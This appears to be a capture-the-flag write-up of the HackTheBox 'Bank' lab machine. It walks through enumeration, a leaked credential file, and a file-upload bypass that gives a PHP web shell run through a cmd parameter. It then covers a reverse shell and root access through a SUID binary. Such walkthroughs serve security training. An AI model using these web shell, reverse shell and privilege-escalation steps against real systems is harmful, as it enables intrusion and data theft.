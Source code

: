 # HTB Bank – Penetration Test Report

## Enumeration

### Open Ports

| Port   | State | Service | Version                                                        |
| ------ | ----- | ------- | -------------------------------------------------------------- |
| 22/tcp | open  | SSH     | OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0) |
| 53/tcp | open  | DNS     | ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)                      |
| 80/tcp | open  | HTTP    | Apache httpd 2.4.7 ((Ubuntu))                                  |

### Web Enumeration

* **Default Webpage**: Apache2 Ubuntu Default Page
* **DNS**: ISC BIND 9.9.5 is running (outdated and potentially vulnerable)

  * No reverse zone
* **Dirb scan**: No useful results

#### Scanning `http://10.129.29.200/`

* ✅ `http://10.129.29.200/index.html` – 200 OK, 11.5 KB
* ❌ `http://10.129.29.200/server-status` – 403 Forbidden

### VHost Enumeration

```bash
gobuster vhost -u http://10.129.29.200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50 -H "Host: FUZZ.bank.htb"
```

* No vhosts found at first, but afterwards a login page was shown instead of the default Apache page.

### Directory Scan on `bank.htb`

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://bank.htb
```

* `/uploads` → 301
* `/assets` → 301
* `/inc` → 301
* `/server-status` → 403
* `/balance-transfer` → 301

### Sensitive File in `/balance-transfer`

* Found multiple files
* One file had a much smaller size

```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

* These credentials work for logging in on the webpage

---

## Exploitation

* Support page allows file uploads
* Uploads are accessible publicly
* Only image files are allowed, but...

> In the HTML source:
>
> ```html
> <!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
> ```

### Exploiting File Upload

* Upload `shell.htb` containing PHP code

Access shell:

```http
http://bank.htb/uploads/shell.htb?cmd=id
# uid=33(www-data) gid=33(www-data) groups=33(www-data)

http://bank.htb/uploads/shell.htb?cmd=cat%20/home/chris/user.txt
```

### Reverse Shell

1. Upload [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
2. Upgrade shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Privilege Escalation

* `whoami`: `www-data`
* `sudo -l`: password required

### Check Crontab

```bash
cat /etc/crontab
```

```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user    command
17 *   * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6   * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6   * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6   1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

### SUID Binary Check

```bash
find / -perm -4000 -type f -exec ls -l {} + 2>/dev/null
```

Found:

```
-rwsr-xr-x 1 root root 112204 Jun 14  2017 /var/htb/bin/emergency
```

* Running this binary gives a root shell

```bash
cat /root/root.txt
```
